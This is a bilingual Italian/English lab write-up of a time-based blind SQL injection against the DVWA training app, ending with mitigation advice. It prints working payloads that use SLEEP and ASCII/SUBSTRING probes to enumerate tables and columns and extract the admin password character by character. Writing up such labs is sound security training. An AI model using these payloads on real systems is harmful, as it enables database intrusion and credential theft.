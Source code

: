 
## SQL Injection – Blind (Medium) – Italiano

## Descrizione

Nel livello "Medium" di DVWA, l’applicazione presenta un form che consente di selezionare un `User ID` da una lista predefinita.  
Il parametro `id` viene passato in una query SQL senza adeguata sanificazione, rendendo possibile un attacco di tipo **Blind SQL Injection**.

## Obiettivo

Estrarre l'username e la password dell'utente `admin`, senza output diretto, tramite tecniche time-based.

## Ambiente di test

- DVWA livello: Medium  
- VirtualBox  
- Browser: Firefox  
- Strumenti: Burp Suite, DevTools

## Fasi dell'attacco

### 1. Rilevamento della vulnerabilità

- L'applicazione accetta solo ID da 1 a 5 tramite dropdown.
- Inserendo valori arbitrari nel parametro `id`, la risposta HTML mostra "missing".
- Il payload `1 AND 1=1 #` restituisce "exists".
- Il payload `1 AND 1=2 #` restituisce "missing".
- Conferma della vulnerabilità **Blind SQLi basata su booleani**.

---

### 2. Verifica dell'esistenza della tabella `users`

- Payload con `SLEEP(5)`:

```sql
1 AND (SELECT IF(EXISTS(SELECT * FROM information_schema.tables WHERE table_name=0x7573657273), SLEEP(5), 0)) #
```

- Risultato: il server ha introdotto un ritardo → conferma che la tabella `users` esiste.

---

### 3. Verifica della lunghezza del nome tabella

```sql
1 AND (SELECT IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_name=0x7573657273 LIMIT 1))=5, SLEEP(5), 0)) #
```

- Confermata lunghezza esatta = 5 → nome esatto: `users`.

---

### 4. Verifica delle colonne

- Colonna `user`:

```sql
1 AND (SELECT IF(EXISTS(SELECT * FROM information_schema.columns WHERE table_name=0x7573657273 AND column_name=0x75736572), SLEEP(5), 0)) #
```

- Confermata l'esistenza della colonna `user`.

---

### 5. Esfiltrazione dell'username

- Payload generico (es. primo carattere `'a'`):

```sql
1 AND (SELECT IF(ASCII(SUBSTRING((SELECT user FROM users LIMIT 0,1),1,1))=0x61, SLEEP(5), 0)) #
```

- Utilizzando Burp Intruder con lista esadecimale, è stato identificato il primo utente: `admin`.

---

### 6. Esfiltrazione della password di admin

```sql
1 AND (SELECT IF(ASCII(SUBSTRING((SELECT password FROM users WHERE user=0x61646d696e),1,1))=0x61, SLEEP(5), 0)) #
```

- L’attacco ha permesso l’estrazione completa della password associata all’utente `admin`, tramite esfiltrazione carattere per carattere con delay.

> ⚠️ I dati estratti non sono riportati per motivi etici.

---

## Considerazioni finali

Questa esercitazione dimostra come un'applicazione, anche con interfaccia limitata, possa essere completamente compromessa sfruttando una Blind SQL Injection time-based.  
L'attacco ha richiesto pazienza, ma non strumenti automatici, solo metodo e logica.

---

## Mitigazioni consigliate

- Utilizzare query parametrizzate (prepared statements)  
- Non concatenare direttamente input utente  
- Validare e sanificare ogni input  
- Limitare i privilegi dell’utente del DB  
- Monitorare e loggare le attività sospette

---

---

## SQL Injection – Blind (Medium) – English

## Description

In DVWA's "Medium" level, the application allows selecting a `User ID` from a predefined list.  
The `id` parameter is used in an SQL query without proper sanitization, enabling a **Blind SQL Injection** attack.

## Objective

Extract the username and password of user `admin`, without visible output, using time-based techniques.

## Test environment

- DVWA level: Medium  
- VirtualBox  
- Browser: Firefox  
- Tools: Burp Suite, DevTools

## Attack steps

### 1. Vulnerability discovery

- Only IDs 1 to 5 are selectable.
- Arbitrary `id` values return "missing" in HTML.
- Payload `1 AND 1=1 #` returns "exists".
- Payload `1 AND 1=2 #` returns "missing".
- Boolean-based Blind SQL Injection confirmed.

---

### 2. Table `users` existence check

```sql
1 AND (SELECT IF(EXISTS(SELECT * FROM information_schema.tables WHERE table_name=0x7573657273), SLEEP(5), 0)) #
```

→ Delayed response confirms the `users` table exists.

---

### 3. Table name length check

```sql
1 AND (SELECT IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_name=0x7573657273 LIMIT 1))=5, SLEEP(5), 0)) #
```

→ Confirmed length = 5 → table name is exactly `users`.

---

### 4. Column discovery

- For column `user`:

```sql
1 AND (SELECT IF(EXISTS(SELECT * FROM information_schema.columns WHERE table_name=0x7573657273 AND column_name=0x75736572), SLEEP(5), 0)) #
```

→ Column `user` confirmed to exist.

---

### 5. Username extraction

```sql
1 AND (SELECT IF(ASCII(SUBSTRING((SELECT user FROM users LIMIT 0,1),1,1))=0x61, SLEEP(5), 0)) #
```

→ Using Burp Intruder and hexadecimal values, the first user was identified: `admin`.

---

### 6. Password extraction of admin

```sql
1 AND (SELECT IF(ASCII(SUBSTRING((SELECT password FROM users WHERE user=0x61646d696e),1,1))=0x61, SLEEP(5), 0)) #
```

→ Full password successfully extracted, character by character, using time delays.

> ⚠️ Extracted values are omitted for ethical reasons.

---

## Final thoughts

This lab shows how an application with even limited UI can be fully compromised via a time-based blind SQL injection.  
Patience and logic were enough — no automated tools were required.

---

## Recommended mitigations

- Use parameterized queries (prepared statements)  
- Avoid concatenating user input directly  
- Properly validate and sanitize input  
- Restrict DB user privileges  
- Log and monitor suspicious activities

---

